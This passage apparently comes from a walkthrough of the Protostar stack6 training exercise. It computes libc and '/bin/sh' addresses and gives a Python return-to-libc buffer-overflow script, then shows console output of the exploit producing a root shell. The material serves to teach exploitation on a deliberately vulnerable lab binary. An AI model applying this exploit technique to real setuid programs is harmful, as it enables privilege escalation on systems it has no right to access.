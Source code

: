 We add the offset in the file onto the location of lib2c in the program for the real location of `/bin/sh`
```
0xb7e97000 + 11f3bf = 0xb7fb63bf
```

We pack the stack so that we can change the return address to libc, and pack some data in there so we can then return to `/bin/sh`
```python
#lib2c.py
import struct
padding = "0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
libc    = struct.pack("I", 0xb7ecffb0)
pack    = "AAAA"
binsh   = struct.pack("I", 0xb7fb63bf)

print padding + libc + pack + binsh
```

Now we have console!
```bash
user@protostar:/tmp$ (python lib2c.py;cat)|/opt/protostar/bin/stack6
input path please: got path 0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO���QQQQRRRRSSSS���AAAA�c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
pwd
/tmp
```